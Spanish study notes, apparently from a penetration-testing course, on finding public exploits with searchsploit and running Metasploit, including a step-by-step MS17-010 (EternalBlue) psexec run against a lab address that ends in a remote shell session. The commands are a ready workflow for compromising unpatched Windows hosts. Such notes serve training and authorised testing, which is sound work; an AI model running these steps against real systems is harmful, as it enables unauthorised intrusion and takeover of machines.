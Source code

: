 # Apuntes resumidos: Hazañas públicas (Exploits)

## 1) Encontrar exploits públicos (rápido)
- Busca por **app + versión + exploit/CVE** en Google y revisa Exploit-DB, Rapid7, Vulnerability Lab.
- Usa **Exploit-DB (searchsploit)** en local.

Instalar/actualizar base de exploits:
```bash
sudo apt install exploitdb -y
searchsploit -u
```

Buscar por nombre/versión y trabajar con PoCs:
```bash
searchsploit openssh 7.2
searchsploit -x linux/remote/45233.py     # ver PoC
searchsploit -m linux/remote/45233.py     # copiar PoC al directorio actual
```

## 2) Metasploit: flujo mínimo
Abrir consola:
```bash
msfconsole
```

Buscar y cargar módulo de exploit:
```bash
search eternalblue
use exploit/windows/smb/ms17_010_psexec
show options
```

Configurar objetivo/handler:
```bash
set RHOSTS 10.10.10.40
set RPORT 445          # si aplica
set LHOST tun0         # o tu IP
```

Comprobar vulnerabilidad (si el módulo lo soporta):
```bash
check
```

Lanzar exploit y gestionar sesión:
```bash
exploit
sessions -i 1
```

Comandos útiles en meterpreter/shell:
```bash
getuid
sysinfo
shell
whoami
```

## 3) Ejemplo rápido (MS17-010)
```bash
msfconsole
search ms17_010
use exploit/windows/smb/ms17_010_psexec
set RHOSTS 10.10.10.40
set LHOST tun0
check
exploit
```

## 4) Apuntes clave
- **Correlaciona versión de servicio ↔ CVE/exploit** antes de lanzar nada; evita falsos positivos/ruido.
- **Revisa módulos auxiliary/scanner** para validar sin explotar.
- **No dependas solo de MSF**: si falla, usa PoCs de searchsploit/manuales y ajusta 🙂.
- **Registra** lo que pruebas (versión, CVE, resultado) para repetir y reportar.
